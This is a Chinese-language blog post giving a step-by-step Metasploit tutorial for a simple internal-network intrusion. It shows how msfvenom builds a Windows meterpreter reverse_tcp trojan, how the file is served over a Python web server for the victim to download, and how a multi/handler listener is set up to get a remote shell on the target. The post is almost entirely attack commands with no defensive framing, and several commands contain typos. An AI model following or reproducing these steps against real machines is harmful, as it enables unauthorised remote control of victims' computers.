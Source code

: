 ```yaml
---
layout:     post
title:      MSF 简单内网渗透
subtitle:   linux下利用Metasploit做一个简单的内网渗透
date:       2019-3-18
author:     陈建武
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Blog
---
```


> 正所谓前人栽树，后人乘凉。

# 前言
## 1.kali 终端运行 msfconsole

### 命令：msfconsole

![](https://s2.ax1x.com/2019/03/18/AniMtg.png)

### 出现如上界面说明启动成功。

## 2.用MSF下的msfvenom来生成木马程序到根目录。

### 命令：msfvenom -p /windows/meterpreter/reverse_tcp lhost=“这里写你的本机ip” lport=“这里写你的端口，注意！不要和已经开启的端口冲突。” -f exe >/muma.exe

![](https://s2.ax1x.com/2019/03/18/AnknJg.png)

## 3.再打开一个终端窗口开启一个简易web服务器。

### 命令：python SimpleHTTPServer 8080

![](https://s2.ax1x.com/2019/03/18/AnkGwV.png)

##　4.用目标机的浏览器访问下载木马程序。点击木马文件下载。

![](https://s2.ax1x.com/2019/03/18/AnkWSH.png)

## 5.加载 exp。

### 命令：use  exploit/multi/handler

![](https://s2.ax1x.com/2019/03/18/AnA534.png)

## 6.设置我们的payload。

### 命令：set /windows/meterpreter/preverse_tcp

set lhost “本机ip”

set lport “你刚才的端口”。

## 7.查看我们的设置。

### 命令：show options

![](https://s2.ax1x.com/2019/03/18/AnE35T.png)

## 8.开启监听。

### 命令：run

![](https://s2.ax1x.com/2019/03/18/AnEarR.png)

## 9.目标机器下载并点击我们的木马文件。

### ![](https://s2.ax1x.com/2019/03/18/AnZmBn.png)

## 10.得到meterpreter，shell到目标的终端。

### 命令：shell

![](https://s2.ax1x.com/2019/03/18/AnZB9O.png)

#11.完成。
